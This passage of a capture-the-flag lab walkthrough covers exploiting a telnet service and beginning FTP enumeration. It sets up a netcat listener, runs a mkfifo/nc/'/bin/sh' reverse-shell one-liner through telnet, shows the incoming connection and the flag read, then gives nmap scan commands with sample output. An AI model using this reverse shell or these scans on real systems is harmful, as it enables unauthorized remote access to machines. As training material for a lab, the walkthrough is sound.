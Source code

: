 Use `netcat` to listen for reverse proxy connection in separate session.
{% capture code %}{% raw %}nc -lvp 4444{% endraw %}{% endcapture %} {% include code.html code=code%}

From the `telnet` session, initiate the reverse payload generated from `msfvenom`.
{% capture code %}{% raw %}.RUN mkfifo /tmp/gqbn; nc <local-ip> 4444 0</tmp/gqbn 2>&1 | /bin/sh >/tmp/gqbn ; rm /tmp/gqbn{% endraw %}{% endcapture %} {% include code.html code=code%}

An output similar to below will be obtained in telnet listener session.
{% capture code %}{% raw %}listening on [any] 4444 ...
<ip>: inverse host lookup failed: Unknown host
connect to [<local-ip>] from (UNKNOWN) [<ip>] 51102{% endraw %}{% endcapture %} {% include code.html code=code%}

Capture the flag.
{% capture code %}{% raw %}cat flag.txt
  <flag>{% endraw %}{% endcapture %} {% include code.html code=code%}


## FTP


### Task 7 - Understanding FTP

Use these links as references.
- [FTP Reference](https://www.ietf.org/rfc/rfc959.txt){:target="_blank"}


An active FTP connection is where the client opens a port and listens, and server is required to connect. A passive FTP connection is where server opens a port and client listens to it.


### Task 8 - Enumerating FTP

Use these links as references.
- [FTP Exploit](https://www.exploit-db.com/exploits/20745){:target="_blank"}
- [NMAP Reference](https://4n3i5v74.github.io/posts/cheatsheet-nmap/){:target="_blank"}


Using `nmap`, perform basic recon and get listening ports.
{% capture code %}{% raw %}nmap -Pn -T4 -p 1-1000 -sS --reason <ip>{% endraw %}{% endcapture %} {% include code.html code=code%}

An output similar to below will be obtained.
{% capture code %}{% raw %}Starting Nmap 7.70 ( https://nmap.org ) at 2021-01-03 00:32 IST
Nmap scan report for <ip>
Host is up, received user-set (0.17s latency).
Not shown: 998 closed ports
Reason: 998 resets
PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63

Nmap done: 1 IP address (1 host up) scanned in 6.09 seconds{% endraw %}{% endcapture %} {% include code.html code=code%}

Perform a detailed scan on FTP port to get more info.
{% capture code %}{% raw %}nmap -Pn -T4 -p21 -A -sS --reason <ip>{% endraw %}{% endcapture %} {% include code.html code=code%}
